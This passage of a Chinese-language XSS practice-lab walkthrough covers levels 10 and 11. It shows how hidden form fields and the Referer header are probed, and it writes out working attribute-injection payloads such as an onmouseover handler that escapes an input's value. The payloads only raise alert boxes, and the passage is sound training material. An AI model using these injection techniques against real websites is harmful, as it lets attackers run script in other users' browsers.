 ![image-20220217220749312](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217220749312.png)

点击`友情链接`即可弹窗

## Level 10

![image-20220217222013957](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217222013957.png)

传递keyword值为`<script>alert(111)</script>`进行测试

![image-20220217222505101](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217222505101.png)

可以看到回显值的地方被htmlspecialchars()函数进行了处理，还有三个隐藏的输入框，尝试向它们传值

```
?keyword=1111&t_link=222&t_history=333&t_sort=444
```

![image-20220217223126794](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217223126794.png)

发现t_sort有回显，在这里构造payload

```
t_sort=" onmouseover=javascript:alert(1) " type="text
```

![image-20220217223555926](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217223555926.png)

![image-20220217223608521](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217223608521.png)

## Level 11

![image-20220218080510169](https://raw.githubusercontent.com/todis21/image/main/img/image-20220218080510169.png)

这关的页面源码和上一关的雷同，多了个隐藏的输入框`t_ref`,value值为上一关的url

![image-20220218081735399](https://raw.githubusercontent.com/todis21/image/main/img/image-20220218081735399.png)

这里可以猜测，这个参数的值，是来源于请求头Referer,通过referer来传入payload

```
" onmouseover=javascript:alert(1) " type="text
```

![image-20220218082110453](https://raw.githubusercontent.com/todis21/image/main/img/image-20220218082110453.png)

可以弹窗进入下一关

![image-20220218082133492](https://raw.githubusercontent.com/todis21/image/main/img/image-20220218082133492.png)

## Level 12

![image-20220218082535475](https://raw.githubusercontent.com/todis21/image/main/img/image-20220218082535475.png)
